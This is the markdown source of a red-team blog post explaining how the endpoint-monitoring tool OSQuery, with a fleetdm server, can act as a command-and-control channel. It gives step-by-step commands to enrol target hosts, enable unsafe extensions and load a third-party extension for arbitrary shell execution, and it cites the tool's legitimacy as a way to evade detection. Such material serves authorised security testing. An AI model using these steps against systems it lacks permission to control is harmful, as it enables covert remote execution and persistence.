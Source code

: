```yaml
---
layout: post
title: Offensive OSQuery
categories: [general]
tags: [redteam, c2, devops, infra]
description: Diving into how a traditionally defensive tool OSQuery can be used to perform red team testing at scale.
---
```

<figure class="aligncenter">
    <img src="/assets/png/osquery-cmdexec-whoami.png" />
    <figcaption>Red teaming with OSQuery</figcaption>
</figure>
Red teaming with OSQuery

## What is OSQuery
OSQuery is an open-source endpoint visibility tool created by Meta. It allows administrators to query hosts across their organization like they would a SQL database. An example from the [osquery site](https://osquery.readthedocs.io/en/stable/introduction/using-osqueryi/):
```SQL
$ osqueryi
osquery> SELECT DISTINCT
osquery> SELECT DISTINCT
    ...>   process.name,
    ...>   listening.port,
    ...>   process.pid
    ...> FROM processes AS process
    ...> JOIN listening_ports AS listening
    ...> ON process.pid = listening.pid
    ...> WHERE listening.address = '0.0.0.0';

+----------+-------+-------+
| name     | port  | pid   |
+----------+-------+-------+
| Spotify  | 57621 | 18666 |
| ARDAgent | 3283  | 482   |
+----------+-------+-------+
osquery>
```

OSQuery is commonly run with a centralized server that all the agents check-in to. While there isn't an official open-source OSQuery server a number of alternative servers exist like [Kollide](https://github.com/kolide) and [fleetdm](https://github.com/fleetdm/fleet) . For this blog we'll be using a cloud managed fleetdm instance given it's ease to setup.

## Why OSQuery is a good c2.
- Evasion - As a legitimate tool for systems administration and corporate security OSQuery isn't detected as malicious.
- Scale - Many c2 frameworks don't scale (some falling over irrecoverably at 50 callbacks a minute) or design their workflows for scale. As a tool designed to manage entire corporations OSQuery and it's servers are designed to operate at scale and help the user queue tasks at scale.
- Robust recon features - OSQuery supports a number of tables that you can query of of the box.
	- [crontab](https://osquery.io/schema/5.8.2/#crontab)
	- [curl](https://osquery.io/schema/5.8.2/#curl)
	- [drivers](drivers)
	- [file](https://osquery.io/schema/5.8.2/#file)
	- [logged_in_users](https://osquery.io/schema/5.8.2/#logged_in_users)
	- [user_ssh_keys](https://osquery.io/schema/5.8.2/#user_ssh_keys)

The downside to OSQuery out of the box is it doesn't support arbitrary command execution making executing new tools, or more complicated memory based tools like mimikatz challenging. To get around this limitation though we can load a custom extension into our OSQuery agent. In the next section we'll load a custom extension to execute arbitrary shell commands.

## How

- Signup for a free trial of fleetdm
	1. https://fleetdm.com/try-fleet/register
	2. Setup an account and login.
- Adding hosts
	1. Once logged in Click "Add hosts"
	2. Select your hosts OS
	3. Unselect include Fleet Desktop
	4. Copy the installer package onto the target host.
	5. Install the package
		1. You may have issues getting things to run I wasn't able to install it a service in my container and had to manually run it.

```bash
cat /etc/default/orbit
source /etc/default/orbit
/opt/orbit/bin/orbit/orbit --insecure --fleet-url $ORBIT_FLEET_URL --enroll-secret $ORBIT_ENROLL_SECRET --debug

ctrl-c to exit.
```

- Build the extension
	1. `git clone https://github.com/hulto/osquery-exec.git`
	2. `cd osquery-exec`
	3. `go build -o exec.ext ./`
- Setup the `osquery-exec` plugin.
	1. Stop the running instance of orbit
	2. Fill out the `/opt/orbit/osquery.flags` file

```bash
--extensions_timeout=3
--extensions_interval=3
--allow_unsafe
```
- Install the `osquery-exec` plugin.
    1. Upload our extension to the remote host `mkdir /test && cp /tmp/exec.ext /test/exec.ext`
    2. Add our extension to those that will be loaded
        1. `echo "/test/exec.ext" > /etc/osquery/extensions.load`
- Restart the orbit agent
	1. `/opt/orbit/bin/orbit/orbit --insecure --fleet-url $ORBIT_FLEET_URL`
- Execute commands 🥳

<figure class="aligncenter">
    <img src="/assets/png/osquery-cmdexec-whoami.png" />
    <figcaption>Figure 1. - OSQuery cmdexec results in fleetdm webui</figcaption>
</figure>

